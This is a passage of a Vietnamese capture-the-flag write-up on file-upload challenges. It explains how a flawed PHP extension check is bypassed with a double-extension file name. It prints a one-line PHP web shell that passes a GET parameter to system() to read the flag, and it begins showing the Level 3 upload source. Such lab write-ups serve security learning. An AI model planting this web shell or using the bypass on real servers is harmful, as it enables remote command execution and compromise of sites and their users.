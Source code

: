 ```php
}
?>
```

![image](https://hackmd.io/_uploads/BkPqCm0ZC.png)

- chức năng của bài tương tự với level 1 nhưng có thêm đoạn code phát hiện phần mở rộng của file có là .php hay không nếu có thì sẽ hiện ra **Hack detected** và không cho chúng ta upload
- Nếu tệp tải lên không có phần mở rộng là "php", nó sẽ được di chuyển vào thư mục của người dùng như bình thường.

![image](https://hackmd.io/_uploads/HyBGl4RWR.png)

giống như chúng ta đã phân tích chương trình phát hiện file .php của mình

- nhưng vì explode(".", $filename): Hàm explode() trong PHP chia một chuỗi thành một mảng các phần bằng cách sử dụng một chuỗi phân cách. Trong trường hợp này, nó chia tên tệp $filename thành một mảng, sử dụng dấu chấm (.) làm dấu phân cách
- và nó sẽ chỉ lấy giá trị thứ 2 của mảng và so sánh với chuỗi "php" nên chúng ta có thể lợi dụng nó và đặt tên file thành **anhmoi.anh.php** và lúc này giá trị thứ 2 của mảng là **anh** nó khác với chuỗi php nhưng nó vẫn là file php giúp hệ thống web hiểu và thực thi

### Khai thác

- mình đổi tên file thành **anhmoi.anh.php** và đoạn code đã upload thành công

![image](https://hackmd.io/_uploads/S1_8EE0-R.png)

- vào xem file mình vừa upload và payload của mình đã được trigger

![image](https://hackmd.io/_uploads/HJqdHNAbC.png)

- tiếp theo mình đọc flag với payload

```php
<?php echo 'SECRET============' . system($_GET[cmd]). '============SECRET'; ?>
```

- và mình lấy được flag

![image](https://hackmd.io/_uploads/rkNlUVCZC.png)

## File upload workshop Level 3

![image](https://hackmd.io/_uploads/ByOQLECbA.png)

### Phân tích

- đọc source code mình được:

```php
<?php
// error_reporting(0);

// Create folder for each user
session_start();
if (!isset($_SESSION['dir'])) {
    $_SESSION['dir'] = 'upload/' . session_id();
}
$dir = $_SESSION['dir'];
if (!file_exists($dir))
    mkdir($dir);

if (isset($_GET["debug"])) die(highlight_file(__FILE__));
if (isset($_FILES["file"])) {
    $error = '';
```